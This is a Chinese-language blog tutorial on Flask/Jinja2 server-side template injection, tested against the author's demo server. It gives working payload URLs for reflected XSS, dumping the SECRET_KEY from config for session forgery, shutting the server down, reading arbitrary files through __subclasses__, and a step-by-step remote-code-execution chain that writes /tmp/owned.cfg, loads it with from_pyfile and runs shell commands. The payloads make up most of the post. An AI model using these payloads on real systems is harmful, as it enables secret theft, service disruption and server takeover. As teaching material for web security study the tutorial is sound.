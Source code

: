 ```yaml
---
layout: post
title: flask-ssti注入
categories: [web]
tags: [web]
fullview: false
comments: true
---
```


[源代码地址](https://github.com/ZhangAiQiang/Flask/tree/master/flask-session%E8%BA%AB%E4%BB%BD%E4%BC%AA%E9%80%A0%E7%AE%80%E5%8D%95%E6%BA%90%E7%A0%81)  (请用python2.7运行，python3有点出入)
  
# **注入点:**     

![](https://i.imgur.com/BjpRspN.png)  

不是返回的静态模板而是反回模板字符串变得让客户端可以控制。  
  
# **XSS**   #
  
这里直接  
>     http://39.105.116.195:9000/<script>alert(1)</script>就会有反射性XSS    

<script>alert("震惊")</script>

flask对模板文件和模板文件中内容进行转义,可如果直接返回模板字符串或者直接返回字符串的话是不会转义的:  


  
![](https://i.imgur.com/AlrT7iT.png)  

只有xss1不会弹框，因为传到了静态文件里面，flask会自动进行转义。  

# **注入测试**   

http://39.105.116.195:9000/{{1+1}}  发现回传的是"/2"存在注入点。  

![](https://i.imgur.com/ls9zH4o.png) 

存在注入。  

# **config** #
 
flask的一个内置全局变量，保存着一些很隐私的信息。  

![](https://i.imgur.com/76P4EX0.png)  

比如SECRET_KEY，就可以session伪造用户。还有数据库连接的信息，就知道了数据库的密码。    

这个是个字典，也可以这样调用某个值
> http://39.105.116.195:9000/{{config['SECRET_KEY']}}  

# **request** 
类似于config，保存着一些信息。**request.environ**是一个字典，其中包含和服务器环境相关的对象  

![](https://i.imgur.com/domxsHz.png)  

>     http://39.105.116.195:9000/{{request.environ['werkzeug.server.shutdown']()}}这个会让服务器停止运行python，但是在gunicorn环境下中不会。  

# **config的from_object方法** #

{{ config.from_object('os') }}通过这个方法，config属性里面多了os(这是举个例子，其他的库自己也可以试试)库里面名字全是大写的属性和变量，而且是可以直接调用。  
  

# **几个重要的属性**  

![](https://i.imgur.com/AZFDkgb.png)  
运行结果  

![](https://i.imgur.com/qVopj2E.png)
  
# **任意文件读取** #
![](https://i.imgur.com/uApeB1u.png)  

>     ""根据__class__是个str类型，根据__mro__(或者__base__)找到object，再由__subclasses__找到object的所有子类，然后调用其中的file属性实现任意文件读取。  



# **远程代码执行利用from_pyfile** #

将一个文件的路径传进去然后编译，这样我们结合file的写功能就可以在指定的位置写文件，然后用from_pyfile编译。    

**写入指令print(1+1)**

![](https://i.imgur.com/wYQ0Skk.png)    
  
**pyfile来编译执行，返回TRUE执行成功。**


![](https://i.imgur.com/udhMvsj.png)  
 
## 还有一种是不用每次写文件，写一次，然后每次只传入命令就好。  

>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\rRUNCMD = check_output') }}   

参考[文章](http://www.anquan.us/static/drops/tips-13683.html)的时候,他是\n\r，可能是mac本，不管了，服务器一般用linux，\n\r写入回车就好了。还有一个需要注意的是，如果你是直接在浏览器上输入反斜杠的话会给你编码为/，所以会编译失败(因为没有回车)，url编码一下就好了%5cn%5cr  
    
>     http://39.105.116.195:9000/{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output%5cn%5crRUNCMD = check_output') }},另外的话如果用burp抓包发送是不需要考虑编码的。

**编译**  

>     {{ config.from_pyfile('/tmp/owned.cfg') }}  

**命令执行:**
  
>     http://39.105.116.195:9000/{{ config['RUNCMD']('ls /',shell=True)}}  

  
![](https://i.imgur.com/i5R1Iod.png)